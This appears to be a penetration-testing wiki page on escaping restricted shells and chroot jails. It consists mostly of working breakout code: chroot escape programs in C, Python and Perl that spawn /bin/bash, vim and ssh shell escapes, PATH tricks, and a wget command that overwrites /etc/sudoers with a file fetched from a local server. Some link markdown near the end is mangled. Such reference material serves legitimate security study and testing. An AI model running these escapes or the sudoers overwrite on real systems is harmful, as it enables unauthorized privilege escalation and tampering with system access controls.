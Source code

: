 # Escaping from restricted shells - Jails

## **GTFOBins**

**Search in** [**https://gtfobins.github.io/**](https://gtfobins.github.io/) **if you can execute any binary with "Shell" property**

## Chroot limitation

From [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations):  The chroot mechanism is **not intended to defend** against intentional tampering by **privileged** \(**root**\) **users**. On most systems, chroot contexts do not stack properly and chrooted programs **with sufficient privileges may perform a second chroot to break out**.

Therefore, if you are **root** inside a chroot you **can escape** creating **another chroot**. However, in several cases inside the first chroot you won't be able to execute the chroot command, therefore you will need to compile a binary like the following one and run it:

{% code title="break\_chroot.c" %}
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
    mkdir("chroot-dir", 0755);
    chroot("chroot-dir");
    for(int i = 0; i < 1000; i++) {
        chdir("..");
    }
    chroot(".");
    system("/bin/bash");
}
```
{% endcode %}

Using **python**:

```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
    os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```

Using **perl**:

```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
    chdir ".."
}
chroot ".";
system("/bin/bash");
```

## Modify PATH

Check if you can modify the PATH env variable

```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```

## Using vim

```bash
:set shell=/bin/sh
:shell
```

## Create script

Check if you can create an executable file with _/bin/bash_ as content

```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```

## Get bash from SSH

If you are accessing via ssh you can use this trick to execute a bash shell:

```bash
ssh -t user@<IP> bash # Get directly an interactive shell
```

## Wget

You can overwrite for example sudoers file

```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```

## Other tricks

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)  
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells**]%28https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)  
[https://gtfobins.github.io](https://gtfobins.github.io**]%28https://gtfobins.github.io)  
**It could also be interesting the page:**

{% page-ref page="../useful-linux-commands/bypass-bash-restrictions.md" %}

